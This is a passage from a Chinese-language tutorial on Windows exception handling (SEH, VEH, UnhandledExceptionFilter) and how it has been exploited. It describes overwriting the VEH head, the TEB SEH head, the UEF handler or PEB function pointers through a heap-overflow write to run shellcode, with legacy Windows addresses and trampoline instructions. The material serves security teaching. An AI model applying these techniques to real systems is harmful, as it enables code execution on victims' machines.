- -1 （EXCEPTION_CONTINUE_EXECUTION）：表示错误得到正确的处理，并将执行下去。类似于线程的异常处理，系统会用回调函数的参数恢复出异常发生时的断点情况，但这时引起异常的寄存器值应该已经得到了恢复。

#### 系统默认的异常处理 U.E.F.

如果进程异常处理失败或者用户根本没有注册进程异常处理，系统默认的异常处理函数 UnhandledExceptionFilter() 会被调用。看到函数名，顾名思义，这个函数好像一个“筛选器”，所有无法处理的异常都将被它捕获并处理，不会出现任何漏网之鱼。有时我们会将这个“终极”
异常处理函数简称为 U.E.F（Unhandled Exception Filter）。

注意：MSDN 中将 U.E.F 称为“top-level exception handler”，即顶层的异常处理，或最后使用的异常处理；将我们所说的用户自定义的进程异常处理 SetUnhandledExceptionFilter 理解为用户在顶层异常处理之前插入的自定义异常处理“supersede the top-level
exception handler ”。不难发现这两种表述的实际内含是一样的，请读者注意本书表述和 MSDN 中表述的对应关系。

UnhandledExceptionFilter（）将首先检查注册表 HKLM\SOFTWARE\Microsoft\WindowsNT\
CurrentVersion\AeDebug 下的表项，如下图所示。



路径下的 Auto 表项代表是否弹出错误对话框，值为 1 表示不弹出错误对话框直接结束程序，其余值均会弹出提示错误的对话框。这个错误对话框在早期windows版本中一定不会陌生。



注册表的 Debugger 指明了系统默认的调试器，在错误框弹出后，如果您选择调试，UnhandledExceptionFilter 就会按照这里的命令加载相应的调试器。我使用的默认调试器是 OllyDbg。

#### 异常处理流程的总结
至此，异常处理的流程已经被扩充地与真实的流程比较接近了，总结出以下几点:
- CPU 执行时发生并捕获异常，内核接过进程的控制权，开始内核态的异常处理。
- 内核异常处理结束，将控制权交给 ring3。
- ring3 中第一个处理异常的函数是 ntdll。dll 中的 KiUserExceptionDispatcher() 函数。
- KiUserExceptionDispatcher() 首先检查程序是否处于调试状态。如果程序正在被调试，会将异常交给调试器处理。
- 在非调试状态下，KiUserExceptionDispatcher()调用 RtlDispatchException()函数，对线程的SEH链表进行遍历，如果找到能够处理异常的回调函数，将再次遍历先前调用过的SEH句柄，即 unwind 操作，以保证异常处理机制自身的完整性。
- 如果栈中所有的 SEH都失败了，且用户曾经使用过 SetUnhandledExceptionFilter()函数设定进程异常处理，则这个异常处理将被调用。
- 如果用户自定义的进程异常处理失败，或者用户没有定义进程异常处理，那么系统默认的异常处理 UnhandledExceptionFilter()将被调用。UEF 会根据注册表中相关信息决定是默默关闭程序，还是弹出错误对话框。

以上就是 Windows 异常处理的基本流程。需要额外注意的是，这个流程是基于 Windows 2000 平台的， Windows XP 及其以后的操作系统的异常处理流程大致相同，只是 KiUserExceptionDispatcher()在遍历栈帧中的 S.E.H 之前，会去先尝试一种新加入的异常处理类
型 V.E.H（Vectored Exception Handling）。

### 其它异常处理机制的利用思路

#### V.E.H 利用

从 Windows XP 开始，在仍然全面兼容以前的 S.E.H 异常处理的基础上，微软又增加了一种新的异常处理：V.E.H（Vectored  Exception Handler，向量化异常处理）。

在我们已有的异常处理机制的基础上，对于 V.E.H 还需要知道以下几个要点。
- V.E.H 和进程异常处理类似，都是基于进程的，而且需要使用 API 注册回调函数。相关 API 如下所示。

```
PVOID AddVectoredExceptionHandler(
 ULONG FirstHandler,
 PVECTORED_EXCEPTION_HANDLER VectoredHandler
); 
```

- MSDN 上有对 VEH结构的描述
```
struct _VECTORED_EXCEPTION_NODE 
{
	DWORD m_pNextNode;
	DWORD m_pPreviousNode;
	PVOID m_pfnVectoredHandler;
} 
```

- 可以注册多个 V.E.H，V.E.H 结构体之间串成双向链表，因此比 S.E.H 多了一个前向指针。
- V.E.H 处理优先级次于调试器处理，高于 S.E.H 处理；即 KiUserExceptionDispatcher() 首先检查是否被调试，然后检查 V.E.H 链表，最后检查 S.E.H 链表。
- 注册 V.E.H 时，可以指定其在链中的位置，不一定像 S.E.H 那样必须按照注册的顺序压入栈中，因此，V.E.H 使用起来更加灵活。
- V.E.H 保存在堆中。
- 最后，unwind 操作只对栈帧中的 S.E.H 链起作用，不会涉及 V.E.H 这种进程类的异常处理。


我们已经知道，在 Windows XP 以后，微软为 Windows 加入了 V.E.H 异常处理，并优先于 S.E.H 使用。V.E.H 被组织成双向链表的形式，当异常发生时，系统将遍历这个链表并依次使用 V.E.H 中的句柄，尝试处理异常。

David Litchfield 在 Black Hat 上的演讲“Windows heap overflows”（http://www.blackhat.com/
presentations/win-usa-04/bh-win-04-litchfield/bh-win-04-litchfield.ppt）中提出，如果能够利用堆溢出的 DWORD SHOOT 修改指向 V.E.H 头节点的指针，在异常处理开始后，将能够引导程序去执行 shellcode。

David 在论文中指出，标识 V.E.H 链表头节点的指针位于 0x77FC3210，并且还为这种利用方式给出了两段 POC 代码，有兴趣的朋友可以深入研究这篇文章。

#### 攻击 TEB 中的 S.E.H 头节点
异常发生时，异常处理机制会遍历 S.E.H 链表寻找合适的出错函数。前面已经介绍过，线程的 S.E.H 链通过 TEB 的第一个 DWORD 标识(fs:0)，这个指针永远指向离栈顶最近的那个 S.E.H。如果能够修改 TEB 中的这个指针，在异常发生时就能将程序引导到 shellcode 中去
执行。

这种方法最早是由 Halvar F lake 在 Black Hat 的著名演讲“Third Gen eration Exploitation”
（http://www.blackhat.com/presentations/win-usa-02/halvarflake-winsec02.ppt）中提出。
Halvar Flake 同时也指出了这种利用方法的一些局限性。要理解这种局限性，需要简单了解一下 TEB 的知识。
- 一个进程中可能同时存在多个线程。
- 每个线程都有一个线程环境块 TEB。
- 第一个 TEB 开始于地址 0x7FFDE000。
- 之后新建线程的 TEB 将紧随前边的 TEB，之间相隔 0x1000 字节，并向内存低址方向增长。
- 当线程退出时，对应的 TEB 也被销毁，腾出的 TEB 空间可以被新建的线程重复使用。

线程环境块位置的预测如下图所示。



当遇到多线程的程序（尤其是服务器程序）时，我们将很难判断当前的线程是哪一个，以及对应的 TEB 在什么位置。因此，攻击 TEB 中 S.E.H 头节点的方法一般用于单线程的程序。

题外话：尽管 Halvar Flake 给出了若干在多线程情况下攻击 TEB 的思路，例如，通过创建很多线程或关闭大量线程去试图控制 TEB 排列等，但以我个人的观点，我并不认为在多线程状态下仍然执著地去利用 TEB 是一种明智的做法——因为还有许多比利用 TEB 更加容易的备选方案。

#### 攻击 U.E.F 

U.E.F（UnhandledExceptionFilter()）即系统默认的异常处理函数，是系统处理异常的最后一个环节。如果能够利用堆溢出产生的 DWORD SHOOT 把这个“终极异常处理函数”的调用句柄覆盖为 shellcode 的入口地址，再制造一个其他异常处理都无法解决的异常，那么当系统使用 U.E.F 作为最后一根救命稻草来解决异常时，shellcode 就可以堂而皇之地得到执行。

这种方法最早也是由 Halvar Flake 提出的。由于 U.E.F 句柄在不同操作系统和补丁版本下可能不同，Halvar Flak e 在“Third Generation Exploitation”中同时还给出了确定 U.E.F 句柄的
具体方法，那就是反汇编 kernel32.dll 中的导出函数 SetUnhandledExceptionFilter()。

以 Windows 2 000 为例，将 kernel32.dll 拖进 IDA，稍等片刻，待自动分析结束，单击“Functions”选项卡，会列出文件内所有的函数名，键入 SetUnhandledExceptionFilter 会自动定位到这个函数，并显示出这个函数的入口地址等信息，如下图所示。




双击这个函数，IDA 会自动跳转到这个函数的反汇编代码处，如下图  所示。



其中，0x77ec044c就是存放系统默认异常处理函数入口地址的地方。

题外话：通过类似的方法，可以发现 U.E.F 句柄在 Windows XP SP1 上存放的位置。尽管 David Litchfield 给出的 Windows XP SP1 的 U.E.F 位置是 0x77ED73B4，在我的 Windows XP SP1 实验环境中，U.E.F 位于 0x77EB73B4。这种差异其实并不奇怪，因为 Halvar Flake 在提出这种利用方式的时候就告诉了我们 U.E.F 的位置可能因为操作系统版本和补丁情况而有所差异。此外，如果您直接反汇编 Windows XP SP2，将会发现 SetUnhandledExceptionFilter()函数与 Windows 2000 和 Windows XP SP1 有很大不同。

David Litchfield 在谈到 U.E.F 利用时补充到结合使用跳板技术能够使 exploit 成功率更高。如果您不熟悉利用跳板定位 shellcode 的原理，请复习第2讲的内容。

David 指出在异常发生时，EDI 往往仍然指向堆中离 shellcode 不远的地方，把 U.E.F 的句柄覆盖成一条 ```call dword ptr [edi+0x78]``` 的指令地址往往就能让程序跳到 shellcode 中，除此以
外，指令
```
call dword ptr [ESI+0x4C]
call dword ptr[EBP+0x74]
```

有时也能起到同样的定位 shellcode 的作用。

依以往的调试经验，EBX、EAX 等寄存器有时也会指向堆中；另外，堆溢出中跳板的选择不像栈溢出中有 jmp esp 作为“保留曲目”，利用 EDI 的跳转并不能保证百分之百的成功。

总之，堆溢出的跳板选择依赖于调试时的具体情况，没有定法，有时还需要一点灵感。

#### 攻击 PEB 中的函数指针
还记得第 5 章堆溢出中我们所做的最后一个实验吗？当 U.E.F 被使用后，将最终调用ExitProcess()来结束程序。ExitProcess()在清理现场的时候需要进入临界区以同步线程，因此会调用 RtlEnterCriticalSection()和 RtlLeaveCriticalSection()。

ExitProcess()是通过存放在 PEB 中的一对指针来调用这两个函数的，如果能够在 DWORD SHOOT 时把 PEB 中的这对指针修改成 shellcode 的入口地址，那么，在程序最终结束时，ExitProcess()将启动 shellcode。

这种方法也是 David Litchfield 在“Windows heap overflows”中首次提出的。比起位置不固定的 TEB，PEB 的位置永远不变，因此，David Litchfield 提出的这种方法比 Halvar Flake 所说
的淹没 TEB 中 S.E.H 链头节点的方法更加稳定可靠。关于这种利用方式的详细信息请参看第4讲第4节中的实验部分。